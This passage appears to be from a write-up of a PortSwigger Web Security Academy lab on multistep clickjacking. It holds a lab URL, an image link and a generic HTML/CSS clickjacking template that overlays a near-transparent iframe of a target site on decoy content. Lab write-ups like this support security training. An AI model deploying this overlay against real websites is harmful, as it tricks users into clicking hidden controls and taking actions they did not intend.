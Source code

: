 Generated link: https://0a910056047f851e816330fc004400af.web-security-academy.net/



![img](images/8%20-%20Multistep%20clickjacking/1.png)


I took the example from https://portswigger.net/web-security/clickjacking:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
